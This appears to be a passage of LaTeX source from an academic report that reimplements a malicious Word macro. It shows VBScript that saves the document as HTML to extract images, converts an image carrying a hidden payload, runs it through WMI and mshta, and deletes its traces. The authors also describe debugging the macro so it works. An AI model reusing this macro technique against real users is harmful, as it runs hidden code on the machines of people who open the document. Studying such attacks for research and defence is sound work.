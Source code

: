 Malware execution starts by decoding a set of Base 64 encoded values. Following this a path is defined where the
document is saved as \acrshort{HTML}. This step is important as it extracts all the images embedded within the document
into a subdirectory, allowing us to manipulate them programmatically. After this, it also protects itself in order to
avoid the user manipulating the document. In the original attack this is where the lure form was opened, however we
decided that implementing it would be superfluous.

\begin{lstlisting}[language=VBScript, caption={The malicious document saving itself to extract embedded images.}][H]
    DocName = ActiveDocument.Name
    If InStr(DocName, ".") > 0 Then
        DocName = Left(DocName, InStr(DocName, ".") - 1)
    End If

    TempPath = Environ("Temp") & "\" & DocName

    ActiveDocument.SaveAs TempPath, wdFormatHTML, , , , , True
\end{lstlisting}

After this step, the meat of the attack happens. First, the extracted \acrshort{PNG} image is converted to
\acrshort{BMP}. Interestingly, however, the converted file is given a \verb+.zip+ extension. This image is then
executed by using the decoded versions of the encoded strings as arguments. Aside from the image conversion function not
extracting the embedded payload as we required, we also discovered another bug within this part of the malware. This
bug, interestingly, affected string concatenation of the argument passed to \verb+objWMIService.Create()+. When using
the variable \verb+Value+ in the concatenation, the result of the concatenation would be just the variable \verb+Value+,
with the other concatenated elements not being present in the resulting string. Replacing the variable with its
contents, \verb+mshta+, solved this issue.

\begin{lstlisting}[language=VBScript, label={lst:macro-extraction}, 
caption={The meat of the macro -- extracting the payload from the converted image and executing it.}][H]
    TempPath = TempPath & "_files"
    CreatedImageFilePath = TempPath & "\" & imageFileName
    CreatedImageBMPFilePath = Environ("Temp") & "\" & Left(imageFileName, InStrRev(imageFileName, ".")) & Ext1

    Call WIA_ConvertImage(CreatedImageFilePath, CreatedImageBMPFilePath)

    Set objWMIService = GetObject(Calc)
    ' Replace Value with "mshta" for string concatenation to succeed
    objWMIService.Create Value & " " & CreatedImageBMPFilePath

    Kill TempPath & "\*.*"
    RmDir TempPath
\end{lstlisting}

